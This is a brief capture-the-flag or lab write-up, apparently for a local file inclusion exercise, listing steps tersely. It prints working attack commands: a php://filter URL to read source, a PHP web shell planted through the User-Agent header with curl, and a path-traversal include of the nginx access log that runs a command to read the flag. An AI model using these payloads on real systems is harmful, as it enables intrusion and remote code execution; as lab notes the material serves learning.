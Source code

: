 ```url
http://<SERVER_IP>:<PORT>/index.php?page=php://filter/read=convert.base64-encode/resource=index
```
- Found the admin panel at /ilf_admin

```
echo -n "User-Agent: <?php system(\$_GET['cmd']); ?>" > Poison
curl -s "http://<SERVER_IP>:<PORT>/index.php" -H @Poison
http://<SERVER_IP>:<PORT>/ilf_admin/index.php?log=../../../../../var/log/nginx/access.log&cmd=cat%20%2Fflag%5Fdacc60f2348d%2Etxt
```
- Found flag
